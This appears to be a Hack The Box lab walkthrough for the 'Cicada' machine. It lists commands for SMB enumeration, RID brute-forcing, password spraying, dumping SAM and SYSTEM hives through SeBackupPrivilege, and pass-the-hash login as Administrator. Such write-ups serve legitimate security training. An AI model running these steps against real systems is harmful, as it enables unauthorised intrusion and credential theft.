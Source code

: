 # Hack The Box (HTB) - Cicada Walkthrough

## Overview
This guide walks through the process of connecting to a Hack The Box (HTB) machine named **Cicada**, performing enumeration, exploiting SMB shares, and ultimately gaining root access.

## Prerequisites
- OpenVPN installed
- nmap
- smbclient
- evil-winrm
- pypykatz
- netexec

## Steps

### 1. Connecting to HTB
Download and connect to the VPN:
```sh
ls
sudo openvpn <path_to_vpn_file>
```

![image](https://github.com/user-attachments/assets/aef25dc9-ed8f-4d1d-aad2-d6ec0dd95c28)



![image](https://github.com/user-attachments/assets/20d74be9-6273-4c5b-8da1-6e8196bd212c)



![image](https://github.com/user-attachments/assets/c5fc1511-7f98-4bc2-a523-ac7ba34d104d)




### 2. Initial Enumeration
Scan the target machine using **nmap**:
```sh
nmap -sV -sC -T4 -oN Cicada.txt <ip.address>
```


![image](https://github.com/user-attachments/assets/5f0ca176-e151-454c-8207-b92efd203319)



#### Flags Explanation:
- `-sV` : Service/version detection
- `-sC` : Default script scanning
- `-T4` : Aggressive scanning mode
- `-oN Cicada.txt` : Save output to a file

### 3. Add Host to `/etc/hosts`
```sh
echo "<ip.address> cicada.htb CICADA-DC.cicada.htb" | sudo tee -a /etc/hosts
```
Verify the entry:
```sh
cat /etc/hosts
```


![image](https://github.com/user-attachments/assets/17892968-1054-4196-8af8-34d2545100ec)



### 4. SMB Enumeration
List available shares:
```sh
smbclient -N -L //cicada.htb
```
If `smbclient` is not installed:
```sh
sudo apt install smbclient
```

![image](https://github.com/user-attachments/assets/20fcb8eb-9522-4f4c-aa16-b63c4b26c552)



Access the **HR** share:
```sh
smbclient -N //cicada.htb/HR
```
Download files:
```sh


![image](https://github.com/user-attachments/assets/bb468876-768a-4d29-a212-19c309441d05)


smb: \> get "Notice from HR.txt"
cat 'Notice from HR.txt'
```

### 5. SMB User Enumeration
Brute-force user enumeration:
```sh
nxc smb cicada.htb -u 'anonymous' -p '' --rid-brute 3000
```


![image](https://github.com/user-attachments/assets/2a0e6759-ccd7-4531-a1de-6a9d5fc332d0)


Extract usernames and save them:
```sh
nano users.txt
```


![image](https://github.com/user-attachments/assets/404b6a40-3634-46b1-86b2-bdce45154a28)


Check for valid credentials:
```sh
nxc smb cicada.htb -u users.txt -p '<password_from_notice>'
```


![image](https://github.com/user-attachments/assets/37ea261d-801d-46ad-bf1a-c35b7421eaa5)


Confirm valid user:
```sh
nxc smb cicada.htb -u 'cicada.htb\michael.wrightson' -p '<password>' --users
```




![image](https://github.com/user-attachments/assets/1c535d7f-ad2b-4114-986a-f495c4fc1514)



### 6. Further SMB Access
Login with the new credentials:
```sh
smbclient //cicada.htb/DEV -U 'cicada.htb\david.orelious'
```


![image](https://github.com/user-attachments/assets/3aecd667-2466-4029-9b48-90ed072bebe8)


Download the script:
```sh
get Backup_script.ps1
cat Backup_script.ps1
```


![image](https://github.com/user-attachments/assets/289762d9-3484-41c3-9783-bbf2830c17a7)



### 7. Remote Access via Evil-WinRM
```sh
evil-winrm -i cicada.htb -u '<username>' -p '<password>'
```


![image](https://github.com/user-attachments/assets/23849e80-0289-4d91-93a5-bb4eb74b1d53)


Verify access:
```sh
whoami
ls
```



![image](https://github.com/user-attachments/assets/b47a2482-6572-47a0-8476-34cdec9de80f)




### 8. Extracting Sensitive Files
Move directories:
```sh
cd ..
cd Desktop
```


![image](https://github.com/user-attachments/assets/73afa306-68c1-483b-9d9c-3dd873393a8b)



Read **user.txt**:
```sh
type .\user.txt
```


![image](https://github.com/user-attachments/assets/f544299b-9fee-45f0-a072-8a77054331ad)


### 9. Privilege Escalation
Check privileges:
```sh
whoami /priv
```


![image](https://github.com/user-attachments/assets/6540a236-d3d5-428d-8f5d-f3b6a71c803a)



If **SeBackupPrivilege** is enabled, exploit it:
```sh
mkdir C:\Temp
cd C:\Temp
reg save hklm\sam C:\Temp\sam
reg save hklm\system C:\Temp\system
```

![image](https://github.com/user-attachments/assets/41b017e7-3257-4ad3-9bd8-9b009f47609f)

![image](https://github.com/user-attachments/assets/d479b538-a7d0-4a56-b51f-37a778dfae80)



Download registry hives:
```sh
download sam
download system
```

![image](https://github.com/user-attachments/assets/c89c0c33-bacb-4c3b-87db-54e6cd562f57)


### 10. Cracking the Administrator Password
Check if `pypykatz` is installed:
```sh
pip show pypykatz
```
![image](https://github.com/user-attachments/assets/ab18db3c-48a3-41bb-9319-6fe9c261726e)


Extract password hashes:
```sh
pypykatz registry --sam sam system
```

![image](https://github.com/user-attachments/assets/b53b2efd-aaee-4f76-bc5f-c179d7c78e8c)


Find the **Administrator** hash and use it for authentication:
```sh
evil-winrm -i cicada.htb -u administrator -H <hash_value>
```

![image](https://github.com/user-attachments/assets/2b9cdad2-a2f2-49d9-838f-ee1901d3e941)


Verify access:
```sh
whoami
```
Retrieve the final flag:
```sh
cd ..
cd Desktop
ls
type .\root.txt
```
![image](https://github.com/user-attachments/assets/a2a157f2-8201-4e1d-a05f-cfe566a05746)


## Conclusion
By following these steps, we successfully exploited SMB shares, retrieved credentials, escalated privileges, and gained full system access on Cicada.
